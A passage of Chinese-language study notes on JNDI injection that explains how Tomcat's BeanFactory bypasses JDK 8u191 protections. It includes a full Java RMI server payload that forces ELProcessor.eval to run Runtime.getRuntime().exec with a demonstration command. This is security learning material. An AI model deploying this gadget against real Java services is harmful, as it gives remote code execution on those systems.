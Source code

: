 1. 参考：

    > https://paper.seebug.org/942/
    > https://www.mi1k7ea.com/2020/09/07/%E6%B5%85%E6%9E%90%E9%AB%98%E4%BD%8E%E7%89%88JDK%E4%B8%8B%E7%9A%84JNDI%E6%B3%A8%E5%85%A5%E5%8F%8A%E7%BB%95%E8%BF%87/#%E5%88%A9%E7%94%A8%E6%9C%AC%E5%9C%B0%E6%81%B6%E6%84%8FClass%E4%BD%9C%E4%B8%BAReference-Factory
    >
    > https://tttang.com/archive/1405/

2. “为什么”使用 `BeanFactory`，因为他的方法有动态性，即通过反射或者类加载来执行代码。那么用户就可以通过控制输入的内容来控制反射或者类加载的结果。

#### 4.1.1 流程分析

1. 先给出 payload：
    ```java
    package com.endlessshw.server;
    
    import com.sun.jndi.rmi.registry.ReferenceWrapper;
    import org.apache.naming.ResourceRef;
    
    import javax.naming.InitialContext;
    import javax.naming.NamingException;
    import javax.naming.StringRefAddr;
    import java.rmi.AlreadyBoundException;
    import java.rmi.RemoteException;
    import java.rmi.registry.LocateRegistry;
    import java.rmi.registry.Registry;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 利用 BeanFactory 绕过 8u191，使用 RMI 作为服务器
     * @date 2023/5/14 10:07
     */
    public class JNDIBypassServer {
        public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
            Registry registry = LocateRegistry.createRegistry(1099);
            InitialContext initialContext = new InitialContext();
            // 实例化 Reference，指定目标类为 javax.el.ELProcessor，工厂类为 org.apache.naming.factory.BeanFactory
            ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
            // 强制将'x'属性的setter从'setX'变为'eval', 详细逻辑见BeanFactory.getObjectInstance代码
            ref.add(new StringRefAddr("forceString", "x=eval"));
            // 利用表达式执行命令
            ref.add(new StringRefAddr("x", "Runtime.getRuntime().exec(\"calc\")"));
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
            initialContext.rebind("rmi://localhost:1099/myRemote", referenceWrapper);
        }
    }
    ```

2. 首先代码会到 `ResourceRef` 指定的工厂类，即 `BeanFactory` 的 `getObjectInstance()` 方法来“生产”对象。

3. `BeanFactory` 是创建 Bean 实例，并且调用了 setter 和 getter 方法。但是 setter 在 `BeanFactory` 是可以被强制修改的：